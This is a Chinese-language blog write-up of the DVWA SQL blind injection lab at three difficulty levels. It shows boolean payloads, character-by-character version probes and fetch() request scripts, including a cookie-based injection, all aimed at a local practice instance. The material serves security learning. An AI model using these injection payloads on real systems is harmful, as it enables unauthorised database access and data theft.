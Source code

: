 ```yaml
---
title: DVWA上手记录-SQL盲注
slug: get-start-dvwa-07
date: 2022-04-28 11:30:00
categories:
- security
tags:
- security
- dvwa
---
```


## 前言

SQL盲注会比一般的注入难度高很多，特别是经验不足的时候可以尝试的 payload 有限，就算有注入点也很难靠手里积累的那点 payload 测出来。一般这种时候用工具会好得多。

## 原理

SQL盲注指的是存在SQL注入，但SQL错误不回显。这种情况下报错攻击无效而且构造有效的 payload 会比较困难。但还是可以通过几个方面确定执行结果：

1. 页面显示内容。比如当SQL错误发生或`WHERE`、`ON`这样的条件子句不满足时和正常执行时网页内容不同。
2. 如果正常执行和错误都返回一样的页面，还可以通过时间来判断SQL是否被执行，比如构造一个执行很慢的 payload 让 SQL 服务器跑，如果返回时间比正常时间久就说明SQL被执行了。
3. 可能还有其他的？

盲注还有个问题就是注入的查询可能不回显到前端，所以直接 `UNION` 一个查询曝出所有的表和列是不太可能的。但如果存在盲注的话至少会有一个比特的观测窗口，所以还是存在一个字符一个字符试过去的办法，比如表名第一个字符是`a`的表是否存在，表名第一个字符是`b`的表是否存在，如此如此。虽然慢而且对一些无法枚举的字段（比如存的是unicode，那总不能遍历整个码表；或者 `int`、`float`这样取值范围太大的类型）没辙。

## 解题

### Low难度：收集信息

![image-20220427165553250](image-20220427165553250.png)

一个普通表单，尝试输入数字。

![image-20220427165613795](image-20220427165613795.png)

逻辑应该是检测这个用户id是否存在于数据库中，随便乱打个数字看看。

![image-20220427165723361](image-20220427165723361.png)

看下目标是什么。

![image-20220427165744902](image-20220427165744902.png)

猜解数据库版本。接着试一试是什么类型的注入，已知这个表单回显是存在/不存在，所以拼一个 `' or 1=1; --` 看看，把条件变成恒真。

![image-20220427165955690](image-20220427165955690.png)

有效。

### Low难度：解题

用 `or` 连接一个子查询，`SELECT EXISTS(SELECT * FROM sys.version WHERE mysql_version LIKE '5%'); --`。这个查询会判断是MySQL的版本是不是5开头。依次类推很快就能解出MySQL版本号。

```plaintext
' or (SELECT EXISTS(SELECT * FROM sys.version WHERE mysql_version LIKE '5%')); -- 
```

但是很快发现行不通，因为没有权限访问 `sys` 这个系统库（没有报错，我只能猜是这样）。

想了想再谷歌了一下盲注的payloads之后还行没什么头绪，`union`大概是不行的，因为回显只有exists和missing两种状态，union查出来也看不到。再翻了一下怎么用SQL查询MySQL版本之后发现除了`show variables`和`sys.version`之外，还可以试试`version`函数。用`SELECT SUBSTR(VERSION(),1,1)='5'`，然后逐个位判断（最好是先判断出这个字符串长度，用`length(version())>1`这样的 payload。）

于是做出下面一系列payload（mysql版本号是`x.y.z`格式，肯定不低于5位，直接从5开始判断）。

```plaintext
' or (SELECT LENGTH(VERSION())>5); -- true
' or (SELECT LENGTH(VERSION())>6); -- false
```

只用了两个 payload 就确定了长度是 6。

接着判断第一位是不是5（因为5.x还是最常用的MySQL版本），后面逐位判断。（这里略了尝试的部分）

```plaintext
' or (SELECT SUBSTR(VERSION(),1,1)='5'); -- true
' or (SELECT SUBSTR(VERSION(),2,1)='.'); -- true
' or (SELECT SUBSTR(VERSION(),3,1)='7'); -- true
' or (SELECT SUBSTR(VERSION(),4,1)='.'); -- true
' or (SELECT SUBSTR(VERSION(),5,1)='3'); -- true
' or (SELECT SUBSTR(VERSION(),6,1)='7'); -- true
```

所以数据库版本号是 `5.7.37`。

这种无聊的爆破工作显然是应该交给脚本的。之后研究sqlmap的时候会再回头看看怎么用sqlmap盲注这里。

### Medium难度：收集信息

![image-20220428092639212](image-20220428092639212.png)

和SQL注入题的medium难度一模一样。

### Medium难度：解题

还是老样子，复制出请求，尝试提交个数字型注入。

```js
await fetch("http://localhost:8080/vulnerabilities/sqli_blind/", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "cache-control": "no-cache",
    "content-type": "application/x-www-form-urlencoded",
    "pragma": "no-cache",
    "sec-ch-ua": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"100\", \"Microsoft Edge\";v=\"100\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "sec-fetch-user": "?1",
    "upgrade-insecure-requests": "1"
  },
  "referrer": "http://localhost:8080/vulnerabilities/sqli_blind/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "id=999+or+1%3D1;+--+&Submit=Submit",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

![image-20220428092945875](image-20220428092945875.png)

在`id=999 or 1=1; --`这个payload下返回了 `exists`，剩下的就是和 Low 难度差不多的方式爆破出版本号，就不复述了。

### High难度：收集信息

![image-20220428093304965](image-20220428093304965.png)

和SQL注入题的High难度差不多，但注意到题中提示变成了 `Cookie ID set!`，于是看一眼 Cookie。

![image-20220428093423840](image-20220428093423840.png)

id直接保存在cookies里，这就简单多了。

### High难度：解题

复制出请求（注意复制出 NodeJS fetch，复制浏览器 fetch 不会复制出cookie），把cookie里的id改成`0 or 1=1 --`，URL编码。

```js
let resp = await fetch("http://localhost:8080/vulnerabilities/sqli_blind/", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "cache-control": "no-cache",
    "pragma": "no-cache",
    "sec-ch-ua": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"100\", \"Microsoft Edge\";v=\"100\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "upgrade-insecure-requests": "1",
    "cookie": "id=0 or 1=1 -- ; PHPSESSID=9nmb4p6uqpf33edc0gvt0s38k5; security=high",
    "Referer": "http://localhost:8080/vulnerabilities/sqli_blind/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": null,
  "method": "GET"
});
```

初始化一个node包（`package.json`把`type`设置成`module`），安装`node-fetch`，补个 `import fetch from "node-fetch";` 然后调试上面的脚本，发现提示 MISSING。

![image-20220428095318913](image-20220428095318913.png)

难道是字符型注入？改成`' or 1=1 --`再试一次。

![image-20220428095720005](image-20220428095720005.png)

这次提示变成了exists，所以是字符型注入。接下来就是用 Low 难度的 Payload 一个一个试过去，爆破出版本号。

## 总结

说说我打完盲注的想法。其实最大的问题是没信心，不知道到底什么结果，没有任何错误提示。有源码的情况下白盒还比较容易构造 payload，黑盒的情况下盲注构造payload倒是很考验心态，因为总是不成功没反应打击很大，会怀疑是不是自己判断错了。

而且很费时间。

想确认是否有注入点感觉最好的办法还是先拿工具脚本试水。不过有防火墙的情况下可能又有问题=。=像是`or 1=1`这种payload很可能被杀。工具没辙的时候还得看人有没有新点子，但这又是大佬的领域了...

嗯，我也想做大佬啊。

